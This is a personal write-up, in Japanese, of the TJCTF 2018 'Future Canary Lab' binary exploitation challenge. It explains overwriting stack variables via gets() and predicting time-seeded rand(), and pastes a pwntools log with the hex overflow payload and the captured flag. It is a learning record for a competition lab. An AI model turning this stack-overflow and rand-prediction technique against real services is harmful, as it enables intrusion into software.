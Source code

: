 # Future Canary Lab [Binary Exploitation]
```
The world renowned Future Canary Lab is looking for a new lab member. Good luck with your interview (source)!

nc problem1.tjctf.org 8000
```

# 解説見た
- https://tcode2k16.github.io/blog/posts/tjctf-2018-writeup/
- source読むと、`int secret,i,j`を書き換えたて`secret - i + j == 0xdeadbeef`にできたら嬉しいことがわかる
- pythonコード動かしてみたけどまじでエラーでまくる。ひとつはOSが18_04なせい、もうひとつはなんか向こう側にある？ファイル名がわからないせい？なのかな、よくわからない。
- exploit.cを作ってコンパイルして、うまくいった。あまり良く読んでいなかった…
- なんか、大きな値を入れるとダメで、rand()関数がseedに現在時間をとっていることを利用してrand()を生成させるexploitというものをつくり、exploitから得られたコードを利用してなんかするっぽいけどよくわかってない

```
kaito@kaito-ThinkPad-X240:~/projects/ctf/tjctf2018/Future_Canary_Lab$ python solve.py
[DEBUG] PLT 0x590 setbuf
[DEBUG] PLT 0x598 printf
[DEBUG] PLT 0x5a0 gets
[DEBUG] PLT 0x5a8 time
[DEBUG] PLT 0x5b0 getegid
[DEBUG] PLT 0x5b8 __cxa_finalize
[DEBUG] PLT 0x5c0 puts
[DEBUG] PLT 0x5c8 __gmon_start__
[DEBUG] PLT 0x5d0 exit
[DEBUG] PLT 0x5d8 srand
[DEBUG] PLT 0x5e0 __libc_start_main
[DEBUG] PLT 0x5e8 rand
[DEBUG] PLT 0x5f0 setresgid
[*] '/home/kaito/projects/ctf/tjctf2018/Future_Canary_Lab/interview'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to problem1.tjctf.org on port 8000: Done
[DEBUG] Received 0x21 bytes:
    'Welcome to the Future Canary Lab!'
[DEBUG] Received 0x14 bytes:
    '\n'
    'What is your name?\n'
[DEBUG] Sent 0xc1 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000040  ba 3c 20 6d  c3 b7 e4 35  f7 05 86 10  27 fa b8 44  │·< m│···5│····│'··D│
    00000050  b8 00 79 7f  2e ee 93 3b  58 3a c4 2b  20 04 30 50  │··y·│.··;│X:·+│ ·0P│
    00000060  37 e5 0d 74  04 b5 2c 5d  01 01 01 01  01 01 01 01  │7··t│··,]│····│····│
    00000070  e6 bf ae df  e6 bf ae df  e6 bf ae df  e6 bf ae df  │····│····│····│····│
    *
    000000c0  0a                                                  │·│
    000000c1
[*] Switching to interactive mode
[DEBUG] Received 0x38 bytes:
    'You are the one. This must be the choice of Stacks Gate!'
You are the one. This must be the choice of Stacks Gate![DEBUG] Received 0x41 bytes:
    '\n'
    'Here is your flag: tjctf{3l_p5y_k0n6r00_0ur_n3w357_l4b_m3mb3r!}\n'

Here is your flag: tjctf{3l_p5y_k0n6r00_0ur_n3w357_l4b_m3mb3r!}
[*] Got EOF while reading in interactive
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
$ vim
[DEBUG] Sent 0x4 bytes:
    'vim\n'
[*] Closed connection to problem1.tjctf.org port 8000
[*] Got EOF while sending in interactive
```
- `tjctf{3l_p5y_k0n6r00_0ur_n3w357_l4b_m3mb3r!}` -> AC
- rand()関数に脆弱性があるというのはわかった。

